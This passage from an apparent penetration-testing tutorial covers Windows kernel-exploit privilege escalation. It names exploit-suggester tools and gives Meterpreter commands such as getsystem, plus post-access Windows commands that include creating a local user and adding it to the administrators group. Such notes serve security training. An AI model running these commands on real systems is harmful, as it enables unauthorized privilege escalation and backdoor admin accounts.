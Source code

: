 Credits to Hertzsprung at https://commons.wikimedia.org/w/index.php?curid=8950144

Kernel exploits will typically target vulnerabilities in the kernel to execute arbitrary code in order to run
privileged system commands or to obtain a system shell. The process will differ depending on the Windows version.

Privilege escalation through kernel exploits typically follows the following methodology:

- Identify a kernel exploit in a given system.
- Download code and execute it in the system.

<a id=2.4.1.2></a>
#### Common tools for NT exploitation

- Windows Exploit Suggester: this tools compares the target patch levels against the Microsoft vulnerability
database in order to detect missing patches. It also notifies the user if there are any public known exploits
available. [Find it here.](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

*The project is kinda dead... so try using [PEASS-ng](https://github.com/carlospolop/PEASS-ng/tree/master). Newer, up-to-date tool.*

- Windows-Kernel-Exploits: collection of Windows kernel exploits sorted by CVE. [Find it here](https://github.com/SecWiki/windows-kernel-exploits)

*This project is also kinda dead... so [check this out](https://github.com/ycdxsb/WindowsPrivilegeEscalation).*

<a id=2.4.1.3></a>
#### Using kernel exploits in Windows 7 SP1

Many exploits are assumed to be ran within a Windows installation. That is, after you've 
gained access to a system.

```bash
# Useful command within a meterpreter session.
# Remember that not everything will be inside the MS framework. If you don't find something,
# then try to search online or try to build something yourself.
meterpreter > getuid
meterpreter > getprivs
meterpreter > getsystem
# If you're lucky, getsystem will do the dirty work for you and give you SYSTEM privileges.
# Doesn't always work, though.
msf6 > use post/multi/recon/local_exploit_suggester
msf6 > set SESSION [SESSION_ID]
# Most local exploit modules will require you to pick an open session, since this are local exploits.
msf6 > exploit
# If you find something, don't just exploit it. Research what you'll use. Check if the exploit
# does what it actually says it does. Sometimes some not very trustworthy stuff might be found, 
# and remember that kernel exploits are dangerous. so be cautious.
```

```batch
Rem These are some command to run whenever you gain access to a Windows computer.
Rem Some of this won't work at first, due to privilege issues. Try them later whenever you get
Rem to elevate your privileges.
C:\Users\user> whoami /all
C:\Users\user> echo %username%
C:\Users\user> net user
C:\Users\user> net user notahacker safepasswd /add
C:\Users\user> net localgroup administrators notahacker /add
Rem useful for kernel exploitation.
C:\Users\user> driverquery | findstr Kernel
C:\Users\user> systeminfo
Rem copy the output to a text file, we'll use it later.
```